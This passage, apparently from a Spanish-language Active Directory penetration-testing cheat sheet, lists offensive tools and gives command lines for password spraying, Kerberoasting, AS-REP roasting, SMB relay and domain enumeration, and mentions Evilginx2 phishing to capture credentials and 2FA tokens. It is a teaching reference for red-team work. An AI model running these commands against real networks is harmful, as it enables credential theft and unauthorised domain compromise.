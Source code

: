 ### Herramientas y Recursos
- [Impacket](https://github.com/fortra/impacket)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- [Responder](https://github.com/lgandx/Responder)
- [Sprayhound](https://github.com/FuzzySecurity/Sprayhound)
- [Kerbrute](https://github.com/ropnop/kerbrute)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)
- [SharpBruteLogon](https://github.com/mgeeky/SharpBruteLogon)

#### Ejemplo de Password Spraying:
```bash
crackmapexec smb 10.0.0.0/24 -u users.txt -p 'Winter2025'
kerbrute passwordspray -d domain.local --dc <DC-IP> users.txt Winter2025
```

#### Ejemplo de Kerberoasting:
```bash
impacket-GetUserSPNs -request -dc-ip <DC-IP> DOMAIN/user:'password'
rubeus kerberoast /user:usuario /password:pass /domain:dominio.local /dc:<DC-IP>
```

#### Ejemplo de AS-REP Roasting:
```bash
impacket-GetNPUsers domain.local/ -usersfile users.txt -no-pass -dc-ip <DC-IP>
rubeus asreproast
```

#### Ejemplo de ataque SMB Relay:
```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

#### Ejemplo de Phishing con Evilginx2:
- Monta un proxy para capturar credenciales y tokens de 2FA.

---

<a name="enumeracion"></a>
## 3. EnumeraciÃ³n en AD

### EnumeraciÃ³n AnÃ³nima y con Credenciales

#### Sin credenciales:
- `rpcclient -U "" <DC-IP>`
- `nmap --script "smb-enum*" -p445 <target>`
- [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

#### Con credenciales:
- [BloodHound (SharpHound)](https://github.com/BloodHoundAD/BloodHound)
- [powerview.ps1](https://github.com/PowerShellMafia/PowerSploit)
- [ADExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
- [ADRecon](https://github.com/sense-of-security/ADRecon)
- [PingCastle](https://github.com/vletoux/pingcastle)
- [NetExec](https://github.com/Pennyw0rth/NetExec) (fork de CME)
